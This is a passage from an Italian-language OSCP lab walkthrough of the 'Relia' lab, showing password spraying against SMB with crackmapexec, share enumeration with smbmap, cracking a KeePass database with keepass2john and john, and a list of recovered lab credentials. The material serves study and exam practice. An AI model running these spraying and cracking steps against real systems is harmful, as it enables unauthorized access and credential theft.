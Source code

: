 Sulla pagina http://192.168.204.248/privacy trovo l'email dell'utente emma:

```bash
emma@relia.com
```

Un'altra pagina interessante è la seguente;

![](/OSCP/Immagini_OSCP/Relia/248_port_80_search.png)

Lancio questo comando per scoprire se posso accedere su questa macchina:

```bash
sudo crackmapexec smb 192.168.173.248  -u users.txt -p passwords.txt -d relia.com --continue-on-success
```

Posso accedere con diverse credenziali, scelgo zachary:fireball.

Scopro che ci sono due share ai quali posso accedere. Enumero i due share tramite questo comando:

```bash
smbmap -H 192.168.173.248 -r transfer -u zachary -p fireball --depth 5

smbmap -H 192.168.173.248 -r users -u zachary -p fireball --depth 5
```

Ci sono diversi database keepass, provo ad estrarli tutti.

Solo da uno di questi riesco ad estrapolare la password tramite john:

```bash
keepass2john Database.kdbx > keepass.hash
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash 
```

Le credenziali estratte sono le seguenti:

```bash
User Name:Password
Michae321:12345
bo:Luigi=Papal1963
emma:SomersetVinyl1!
****:HabitsAgesEnd123
****:SAPassword_1998
****:welcome1
```
